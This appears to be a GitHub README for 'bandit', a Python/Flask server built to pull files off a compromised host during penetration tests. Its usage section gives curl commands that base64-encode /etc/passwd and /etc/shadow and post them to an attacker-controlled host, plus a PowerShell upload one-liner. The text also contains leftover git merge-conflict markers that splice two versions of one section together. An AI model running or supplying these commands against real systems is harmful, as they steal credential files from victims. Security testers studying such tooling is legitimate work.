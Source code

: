 # bandit
A quick and easy way to exfiltrate files

# purpose
Bandit is designed as a simple way to exfiltrate files during a penetration test without relying on dedicated tools on a compromised host. However, it can be used in any situation where uploads need to happen quickly and easily - for example, automated backup programs. 
While the server is written in python/flask, the uploads are handled through base64 and curl - both of which are nearly ubiquitous on most unix systems. This miniscule footprint means no file movement is needed to begin using bandit on any given linux-based system. The simplicity of the protocol also allows for custom programs to be written that leverage it - for example, a windows program could handle encoding and uploading the files. 

# usage
Attacker: ```python3 bandit.py [port]```

Victim: ```curl -d "passwd=$(base64 /etc/passwd)&shadow=$(base64 /etc/shadow)" http://yourip:port/```

It is important to use double quotes to allow bash to process reading the files and encoding them before upload

If you wish to overwrite the existing files, instead of failing to upload if they exist on the server, specify the /overwrite path. This will scribble over any existing files on the server that conflict with the attempted upload, so use with caution. Yes, path travesal checks are made before file IO

Victim: ```curl -d "passwd=$(base64 /etc/passwd)&shadow=$(base64 /etc/shadow)" http://yourip:port/overwrite```

<<<<<<< HEAD
Bandit is also compatible with Windows Powershell, although usage is not as straightforward. To save you some time, here is a oneliner to upload a single file, filename.txt, to the remote server as uploadedfile:

```if ($PWD.Provider.Name -eq 'FileSystem') { [System.IO.Directory]::SetCurrentDirectory($PWD) } ; Invoke-WebRequest -Uri http://yourip:port -Method POST -Body @{uploadedfile=[Convert]::ToBase64String([IO.File]::ReadAllbytes("filename.txt"))}```
=======
Note that bandit supports multiple files uploaded at the same time. Simply add as many parameters as you wish, one for each file, in the following format:

[desired filename]=[base64 encoded contents]

The simplicity of the protocol makes it easy to use one-liners to upload files, or create custom wrapper scripts for more thorough uploads. 
>>>>>>> 4ac9430564bcebac23691431249b41c5f23db3e5
